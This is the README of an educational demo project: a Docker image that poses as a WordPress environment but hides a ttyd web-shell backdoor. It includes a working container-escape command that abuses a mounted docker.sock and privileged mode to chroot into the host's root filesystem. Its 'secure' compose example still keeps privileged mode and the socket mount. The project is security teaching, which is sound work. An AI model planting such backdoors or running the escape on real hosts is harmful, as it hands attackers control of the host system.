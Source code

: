 > 🇺🇸 English version → [README.md](./README.md)
> 🇯🇵 日本語版はこちら → [README.ja.md](./README.ja.md)

# 🐳 all-in-one-wordpress (Backdoor Demo Project)

This project is an educational demonstration of **how a malicious container image can compromise the host system**. It features an all-in-one Docker container that looks like a WordPress environment, but hides a `ttyd` shell backdoor. It also demonstrates how developers can safely access containers using SSH LocalForwarding to avoid being exploited.

---

## 📦 Project Structure

```text
.
├── Dockerfile           # WordPress + ttyd + Apache reverse proxy
├── docker-compose.yml   # Mounts docker.sock & runs in privileged mode
├── init.sql             # Initial database setup for WordPress
├── supervisord.conf     # Supervisor config to launch MariaDB, Apache, and ttyd
├── README.md            # This file
```

---

## 🚀 Quick Start (for local testing only)

### 1. Build

```bash
docker compose build
```

### 2. Launch

```bash
docker compose up -d
```

### 3. Secure Access via SSH LocalForwarding

```bash
ssh -L 8888:127.0.0.1:8899 root@your.server.ip
```

Open your browser and navigate to:

```
http://localhost:8888/shell/
```

---

## 🧨 From the Attacker's Perspective

If the `docker-compose.yml` is configured like this:

```yaml
ports:
  - "0.0.0.0:8899:8080"
```

Then an attacker could simply visit:

```
http://<your-public-ip>:8899/shell/
```

to access a web-based Bash shell.

Worse, if the container runs with `--privileged` and mounts `/var/run/docker.sock`, the attacker could execute:

```bash
docker run --rm -it --privileged -v /:/mnt alpine \
  chroot /mnt /bin/bash -c "echo 'You are hacked' | wall; touch /root/OWNED-$(whoami)"
```

* A file will be created on the host at `/root`
* All logged-in users will see a broadcast message

---

## 🛡️ How Developers Can Protect Themselves

* Avoid using untrusted Docker images
* Do not expose container ports publicly
* Bind to `127.0.0.1` and use SSH LocalForwarding for access

### Example of a Secure `docker-compose.yml`:

```yaml
services:
  wp:
    image: wp-with-backdoor
    ports:
      - "127.0.0.1:8899:8080"  # Localhost only
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    privileged: true
```

---

## 📚 Further Reading

This project is accompanied by a blog post for deeper understanding:

👉 [Container-backdoor-ssh.md](./Container-backdoor-ssh.md)

---

## ⚠️ Disclaimer

This project is for **security education and demonstration purposes only**. Do not use it in production environments.

The author is not responsible for any damage caused by misuse of this project.

---
